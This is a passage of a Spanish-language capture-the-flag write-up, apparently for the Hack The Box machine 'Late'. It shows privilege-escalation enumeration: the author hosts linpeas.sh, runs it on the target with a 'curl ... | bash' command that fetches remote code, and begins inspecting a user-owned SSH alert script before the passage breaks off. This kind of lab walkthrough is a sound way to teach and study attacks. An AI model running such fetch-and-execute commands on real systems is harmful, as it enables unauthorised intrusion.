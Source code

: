 Descargarmos [PEASS-ng](https://github.com/carlospolop/PEASS-ng/releases/tag/20230723-6e7e89ef) para enumerar y ver la forma en la que podemos escalar privilegios.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.156 - - [23/Jul/2023 22:53:47] "GET /linpeas.sh HTTP/1.1" 200 -
```

```bash
svc_acc@late:~$ curl http://10.10.14.2/linpeas.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
...
                            ╚═════════════════════════╝
╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#script-binaries-in-path
You own the script: /usr/local/sbin/ssh-alert.sh
/usr/bin/gettext.sh

╔══════════╣ Executable files potentially added by user (limit 70)
2023-07-24+04:54:01.2203263180 /usr/local/sbin/ssh-alert.sh
2022-04-04+13:20:33.4320867080 /usr/local/bin/gunicorn
2022-01-20+13:21:26.1204163440 /usr/local/bin/pytesseract
2022-01-20+13:20:42.9964626730 /usr/local/bin/pip3.6
2022-01-20+13:20:42.9964626730 /usr/local/bin/pip3
2022-01-20+13:20:42.9964626730 /usr/local/bin/pip
2022-01-17+10:18:24.8993280860 /usr/local/bin/flask
2022-01-05+14:59:49.3745428190 /usr/local/bin/uwsgi
2022-01-05+12:20:50.8528121770 /home/svc_acc/.local/bin/pytesseract
2022-01-05+12:19:52.2535296960 /home/svc_acc/.local/bin/pip3.6
2022-01-05+12:19:52.2535296960 /home/svc_acc/.local/bin/pip3
2022-01-05+12:19:52.2535296960 /home/svc_acc/.local/bin/pip
2022-01-05+12:13:14.4229514600 /home/svc_acc/.local/bin/flask
2022-01-05+10:37:17.9570760600 /usr/sbin/policy-rc.d
...
════════════════════════════════╣ API Keys Regex ╠════════════════════════════════
                                ╚════════════════╝
Regexes to search for API keys aren't activated, use param '-r' 


svc_acc@late:~$
```

```bash
svc_acc@late:~$ ls -la /usr/local/sbin/ssh-alert.sh
-rwxr-xr-x 1 svc_acc svc_acc 433 Jul 24 05:01 /usr/local/sbin/ssh-alert.sh
svc_acc@late:~$
```

Vemos que somos propietarios del script `/usr/local/sbin/ssh-alert.sh` Vamos a echarle un ojo:

```bash
svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
```